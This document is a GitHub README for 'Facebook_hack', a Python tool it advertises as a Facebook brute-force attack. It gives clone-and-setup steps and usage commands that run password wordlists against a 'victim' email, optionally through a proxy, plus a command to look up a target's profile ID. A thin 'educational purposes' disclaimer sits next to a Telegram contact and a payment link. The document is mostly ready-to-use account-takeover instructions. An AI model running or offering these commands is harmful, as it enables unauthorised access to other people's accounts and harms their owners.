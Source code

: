 # Facebook_hack

![PicsArt_22-06-08_16-34-50-148](https://user-images.githubusercontent.com/70594016/172602116-20012d77-f4c2-45a6-a5fb-391f683c0f05.png)
###### Powerfull Facebook Bruteforce Attack.
***
### <p align="center">Commands to run tool in ur terminal Termux && Kali Linux
***

 ```bash
Note : Tool is Made of Educational Purposes only.
       Please try not to harm anyone device 
       it's For Fun Purpose Not For Revenge
       (Join Us https://bit.ly/3PV3S3r)
```
## Language is used to Make this tool
- Python
  
## The Tool is for :
- Windows
- Kali Linux
- Android~Termux
- macOs
- any Os has python(2.x, 3.x) with required modules

###### Installation
```bash
apt update && apt upgrade -y
```
```bash
apt install git -y
```
```bash
git clone https://github.com/Sd8698621/facebook_hack
```
```bash
cd Facebook_hack
```
```bash
bash setup
```
```bash
python facebook_hack.py
```

## usage :-
  - **U can Use Victim email Or Facebook Profile Id**:
  
  - **Brute Force On Facebook Account Without proxy**:
  
  * **Command**: python facebook_hack.py -t victim@gmail.com -w 10MPASS.txt
  * **Command**: python facebook_hack.py -t victim@gmail.com -w pass.txt
  
  - **Brute Force On Facebook Account With Proxy**:
   
    * **Command**: python facebook_hack.py -t victim@gmail.com -w 10MPASS.txt -p 144.217.101.245:3129
    
    - **Get Target Facebook Profile ID**:
  
   
    * **Command**: python facebook_hack.py -g https://www.facebook.com/zuck
  * **Contact**:
 ```bash
https://t.me/sayan865312
```
* **Help**:
```bash
upi://pay?pa=8653128442@paytm&pn=PaytmUser&mc=0000&mode=02&purpose=00&orgid=159761&cust=1430742987
```
